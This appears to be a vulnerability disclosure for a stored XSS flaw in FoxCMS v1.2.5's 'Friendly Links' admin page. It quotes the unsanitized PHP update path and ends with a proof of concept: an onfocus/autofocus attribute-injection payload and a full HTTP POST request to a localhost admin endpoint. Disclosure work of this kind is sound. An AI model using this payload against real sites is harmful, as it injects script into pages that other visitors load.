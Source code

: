 ## XSS

### Vulnerability Description
The latest version of FoxCMS v1.2.5 contains an XSS vulnerability in the "Friendly Links" feature. This vulnerability arises due to insufficient input validation and sanitization, allowing an attacker to inject arbitrary JavaScript code. The injected code will execute when other users view the file.

FoxCMS is an open-source, free-to-use content management system (CMS) based on PHP+MySQL architecture. It includes commonly used content models such as single pages, articles, products, galleries, videos, feedback, downloads, etc., and comes with rich template tags, SEO optimization, and static URL features. No advanced programming skills are needed, and users only need to know HTML to quickly build diverse applications for efficient content management. The system also supports multi-language support, form design, visitor statistics, message notifications, cloud storage services, etc.

Project Source Code: [Gitee FoxCMS](https://gitee.com/qianfox/foxcms)  
Official Website: [FoxCMS](https://www.foxcms.cn/)

![](./public/a-1.png)

### White-box Audit

The vulnerability was found in the `app\admin\controller\Link.php` file, where the `param` is directly passed to the `update` function for storage and updates:
```php
  public function edit()
    {
        $columnId = $this->request->param("columnId");
        $authRule = AuthRule::find($columnId);
        $bcidStr = str_replace(",", "_", $authRule->tier);
        $breadcrumb = AuthRule::getBreadcrumb($bcidStr);
        array_push($breadcrumb, ['id'=>'', 'title'=>'Edit Slide', 'name'=>DIRECTORY_SEPARATOR. config('adminconfig.admin_path').'/Link/edit','url'=>'javascript:void(0)']);
        View::assign("breadcrumb", $breadcrumb);

        if ($this->request->isPost()) {
            $param = $this->request->param();
            LinkModel::update($param);
            $this->success("Operation successful");
        }
        $id = $this->request->get('id');
        $slide = LinkModel::find($id);
        return view('edit',['link'=>$slide]);
    }
```

Tracking the flow revealed that `data` is passed to the `save` function:
![](./public/c-1.png)
The `save` function calls `updateData()` to update the data:
```php
 public function save(array $data = [], string $sequence = null): bool
    {
        // Assign data to the object
        $this->setAttrs($data);

        if ($this->isEmpty() || false === $this->trigger('BeforeWrite')) {
            return false;
        }

        $result = $this->exists ? $this->updateData() : $this->insertData($sequence);

        if (false === $result) {
            return false;
        }

        // Write callback
        $this->trigger('AfterWrite');

        // Re-record original data
        $this->origin   = $this->data;
        $this->get      = [];
        $this->lazySave = false;

        return true;
    }
```
Finally, the SQL query is executed here without any filtering.
![](./public/c-2.png)

When visiting the website's homepage, the `footer.html` template is rendered, and the link is directly inserted into the `href` attribute, causing an XSS vulnerability.
![](./public/c-3.png)

### Vulnerability Exploit

Go to the website's backend "Friendly Links" section:
![](./public/c-4.png)

Insert the following payload in the link:
```r
" onfocus="alert('xss');" autofocus="
```
![](./public/c-5.png)

The full HTTP request is as follows:
```http
POST /index.php/admin4943/Link/edit HTTP/1.1
Host: localhost
Accept: application/json, text/javascript, */*; q=0.01
Referer: http://localhost/index.php/admin4943/Link/edit?type=1&columnId=54&id=4
Cache-Control: no-cache
Sec-Fetch-Dest: empty
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Pragma: no-cache
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate, br, zstd
Origin: http://localhost
X-Requested-With: XMLHttpRequest
sec-ch-ua: "Not(A:Brand";v="99", "Google Chrome";v="133", "Chromium";v="133"
Cookie: Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; EM_AUTHCOOKIE_lNE22nMPAa488ZNtzQ3WgvxbdQwb6OXM=admin%7C1770040866%7Cb261421f97bb00341664ae3a0f324f32; ujcms-visit-unique-visitor=499762764960989; ujcms-unique-visitor=-7658023558624320967; PHPSESSID=063db44dee3fd725ac70bcdf2d33ffbe; keeplogin=1%7C86400%7C1739866061%7C1ac00e88e1610806dc9a101784368bbd; status_desc=%3Cscript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E; version=1.2.5; access_::1=1739784248; access_127_0_0_1=1739791249
Content-Length: 120

id=4&sort=0&title=%E9%BB%94%E7%8B%90%E5%BB%BA%E7%AB%99&link=%22+onfocus%3D%22alert('xss')%3B%22+autofocus%3D%22&status=1
```
![](./public/c-6.png)

Then, visiting the website's homepage will automatically trigger the XSS vulnerability.
![](./public/c-7.png)

